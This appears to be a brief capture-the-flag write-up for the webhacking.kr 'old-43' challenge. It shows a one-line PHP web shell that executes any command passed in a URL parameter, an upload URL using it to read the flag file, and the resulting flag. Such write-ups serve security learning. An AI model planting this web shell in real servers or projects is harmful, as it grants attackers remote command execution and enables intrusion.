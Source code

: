 # Webhacking old-43 Solution

here i created this webshell
```
<?php echo `$_GET[x]`?>
```

then, when you access it:
`http://webhacking.kr:10004/upload/coolCode.php?x=cat%20/flag`


**Flag:** ***`FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}`*** 

